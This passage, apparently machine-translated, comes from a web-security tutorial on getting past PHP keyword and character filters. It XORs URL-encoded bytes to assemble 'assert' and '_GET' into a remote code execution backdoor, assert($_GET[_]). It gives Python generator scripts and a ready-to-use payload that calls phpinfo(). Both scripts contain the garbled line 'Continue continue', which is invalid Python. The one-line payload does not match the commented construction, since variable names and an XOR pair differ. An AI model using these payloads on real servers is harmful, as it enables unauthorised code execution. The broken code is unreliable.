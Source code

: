 ```python
                i = '%{:0>2}'.format(hex(i)[2:])
                j = '%{:0>2}'.format(hex(j)[2:])
                print("('{0}'^'{1}')".format(i,j),end=".")
                break
        else:
            Continue continue
        break
```

One code execution can only get the string of the statement we want to execute, but cannot execute the statement, so the code needs to be executed twice for construction.
Use a script to convert each letter and then splice it

```php
$_=('%01'^'%60').('%08'^'%7b').('%08'^'%7b').('%05'^'%60').('%09'^'%7b').('%08'^'%7c');
//$_='assert';
$__='_'.('%07'^'%40').('%05'^'%40').('%09'^'%5d');
//$__='_GET';
$___=$$__;
//$___='$_GET';
$_($___[_]);
//assert($_GET[_]);
```

Payload: `$_=('%01'^'%60').('%08'^'%7b').('%08'^'%7b').('%05'^'%60').('%09'^'%7b').('%08'^'%7c');$__='_'.('%07'^'%40').('%05'^'%5d');$__=$$__;$_($___[_]);&_=phpinfo();`

>After local testing, it was found that this method can be used in php5 and php7.0.9 versions, because the problem of assert() is not X- or cannot be used
Secondly, some of the lower versions of PHP5 may be due to magic_quotes
_gpc enabled relationship makes it impossible to use

![Insert the picture description here](https://img-blog.csdnimg.cn/20210602162530266.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

When the range of filtering characters is not that large, or just filtering keywords, you can use the following script

```python
# -*- coding: utf-8 -*-
import string

char = string.printable
cmd = 'phpinfo'
tmp1,tmp2 = '',''
for res in cmd:
    for i in char:
        for j in char:
            if(ord(i)^ord(j) == ord(res)):
                tmp1 += i
                tmp2 += j
                break
        else:
            Continue continue
        break
print("('{}'^'{}')".format(tmp1,tmp2))
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210602163013317.png#pic_center)
